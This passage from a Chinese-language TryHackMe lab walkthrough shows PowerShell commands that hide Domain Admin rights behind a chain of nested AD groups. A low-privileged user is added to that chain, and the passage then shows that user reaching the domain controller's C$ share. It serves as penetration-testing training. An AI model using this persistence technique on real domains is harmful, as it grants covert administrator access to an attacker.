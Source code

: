 现在让我们将最后一个组添加到域管理员组中：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
```

最后，让我们将我们的低权限 AD 用户添加到我们创建的第一个组中：

```powershell title="Terminal"
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

马上，你的低权限用户现在应该已经拥有了对 THMDC 的特权访问。让我们通过在 THMWRK1 上使用 SSH 终端来验证一下：

```shell title="Terminal"
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>dir \\thmdc.za.tryhackme.loc\c$\
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
05/01/2022  09:11 AM               169 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
05/11/2022  10:32 AM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
05/15/2022  09:16 PM    <DIR>          Tools
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               3 File(s)          1,997 bytes
               8 Dir(s)  51,573,755,904 bytes free
```

让我们也验证一下，即使我们创建了多个组，域管理员组只有一个新成员：

```shell title="Terminal"
PS C:\Users\Administrator.ZA> Get-ADGroupMember -Identity "Domain Admins"


distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
objectGUID        : 0bbd7980-b53b-4634-8a28-57e4234655c2
SamAccountName    : Administrator
SID               : S-1-5-21-3885271727-2693558621-2658995185-500

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
objectGUID        : ba545574-6af9-4a3d-a8df-24ab582fc04c
SamAccountName    : am0_nestgroup5
SID               : S-1-5-21-3885271727-2693558621-2658995185-6163
```
